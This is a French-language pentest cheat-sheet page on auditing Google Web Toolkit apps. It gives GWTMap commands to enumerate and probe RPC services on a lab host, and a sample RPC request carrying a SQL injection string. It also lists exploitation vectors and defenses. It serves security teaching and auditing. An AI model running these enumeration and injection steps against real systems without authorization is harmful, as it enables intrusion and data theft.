

# Google Web Toolkit (GWT)

> [!info] **En 1 phrase**
> Google Web Toolkit (GWT) compile du **Java en JavaScript frontend** avec un protocole RPC de **sérialisation maison** — mal audité, il expose méthodes serveur, permet l'injection dans les payloads sérialisés et mène à de l'exécution de code.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Google%20Web%20Toolkit/README.md)**

---

## Concept



> [!info] **Pourquoi c'est intéressant**
> Le JS généré par GWT est **obfusqué et volumineux**, mais il encode le **nom des services et méthodes serveur** dans les permutations. Une fois ces noms extraits, on peut appeler les RPC directement — souvent avec des entrées non validées par le frontend.

---

## Anatomie d'une app GWT

| Élément | Rôle |
|---|---|
| `*.nocache.js` | Bootstrap : charge une permutation selon le navigateur |
| `*.cache.js` | Code JS compilé d'une permutation (nombreux dans les fichiers) |
| RPC service | Endpoint POST qui reçoit la **sérialisation GWT** des arguments Java |
| Format RPC | Binaire : magic `|J|`, classe de la requête, champs sérialisés avec leurs **types** |

> [!warning] **Sérialisation maison**
> Le protocole RPC GWT définit ses **propres règles de sérialisation** (en-tête `|J|...`), souvent oublié par les scanners génériques → surface mal couverte, idéale pour un audit manuel/outillé.

---

## Énumération des endpoints RPC

> [!tip] **Bootstrap vs permutation**
> Le `.nocache.js` ne contient que l'orchestration ; pour extraire les **noms de services/méthodes**, il faut analyser une permutation `.cache.js` concrète.

```bash
# Énumérer les méthodes via le bootstrap (backup local du code, permutation au hasard)
./gwtmap.py -u http://10.10.10.10/olympian/olympian.nocache.js --backup

# Via une permutation spécifique
./gwtmap.py -u http://10.10.10.10/olympian/C39AB19B83398A76A21E0CD04EC9B14C.cache.js

# Via un proxy HTTP (Burp)
./gwtmap.py -u http://10.10.10.10/olympian/olympian.nocache.js --backup -p http://127.0.0.1:8080

# Depuis une copie locale d'une permutation
./gwtmap.py -F test_data/olympian/C39AB19B83398A76A21E0CD04EC9B14C.cache.js

# Filtrer sur un service / une méthode
./gwtmap.py -u http://10.10.10.10/olympian/olympian.nocache.js --filter AuthenticationService.login
```

---

## Génération & test de payloads RPC

```bash
# Générer les payloads RPC de toutes les méthodes d'un service filtré
./gwtmap.py -u http://10.10.10.10/olympian/olympian.nocache.js --filter AuthenticationService --rpc --color

# Prober (tester) les requêtes RPC générées
./gwtmap.py -u http://10.10.10.10/olympian/olympian.nocache.js --filter AuthenticationService.login --rpc --probe
./gwtmap.py -u http://10.10.10.10/olympian/olympian.nocache.js --filter TestService.testDetails --rpc --probe
```

---

## Exploitation

| Vecteur | Description |
|---|---|
| **Injection dans les args RPC** | Les arguments sérialisés sont injectés dans le code serveur (SQLi, EL, commandes...) — le frontend ne valide pas |
| **EL Injection** | "From Serialized to Shell" : injection d'expressions EL dans les champs d'une requête GWT (audit SRC Incite) |
| **Désérialisation** | Mauvais use/overrides des sérialiseurs → cf. [[Insecure Deserialization| Deserialization]] |
| **Méthodes non exposées au frontend** | L'énumération révèle des méthodes jamais appelées par le JS → souvent moins protégées |
| **Auth zippée** | Les services RPC peuvent oublier de re-vérifier les autorisations (fiable uniquement côté UI) |

```text
# L'input client est contrôlable dans la requête RPC brute :
# 7|0|6|http://target/olympian/|...|AuthenticationService|login|java.lang.String/2004016611|admin' OR '1'='1|...
```

---

## Outils

```bash
# GWTMap (FSecureLABS) — mapping de la surface d'attaque GWT
https://github.com/FSecureLABS/GWTMap

# GWT Penetration Testing Toolset (GDSSecurity)
https://github.com/GDSSecurity/GWT-Penetration-Testing-Toolset
```

---

## Détection & Défense

| Mesure | Détail |
|---|---|
| **Détection** | Présence de `*.nocache.js` / `*.cache.js` / historique GWT dans le JS, en-têtes RPC `X-GWT-*` |
| **Valider côté serveur** | Revalider TOUTES les entrées des services RPC — ne jamais se fier au frontend |
| **Authz côté serveur** | Vérifier les permissions sur chaque méthode, pas seulement dans l'UI |
| **Énumération** | Limiter/obfusquer les noms de services, ne pas exposer de méthodes internes |
| **Désérialisation sûre** | Contrôler les classes autorisées (whitelist) dans le protocole RPC |
| **Patchs** | Suivre les CVE des frameworks d'expression utilisés côté serveur |

---

## Tips & Pièges

> [!tip] **Audit manuel sur les permutations**
> Les permutes sont volumineuses : chercher les **string pools** pour extraire les noms de méthodes, puis croiser avec l'interface utilisateur pour mapper chaque fonctionnalité à son service.

> [!warning] **Pièges**
> - Le `.nocache.js` seul ne suffit pas pour énumérer les méthodes → il faut une **permutation réelle**.
> - Le format RPC a plusieurs versions : la **requête brute** construite par GWTMap doit matcher la version du serveur.
> - Les erreurs GWT sont **opaques** (`Exception`, status) → souvent en **blind**, prévoir des payloads génériques.
> - Les scanners classiques ne détectent pas le protocole → une app GWT non fuzzée reste très souvent vulnérable.

---

## Liens

- [[Insecure Deserialization| Deserialization]]
- [[Injection de commandes| Injection de commandes]]
- [[API Key Leaks| API Key Leaks]]
- → [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — Google Web Toolkit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Google%20Web%20Toolkit/README.md)
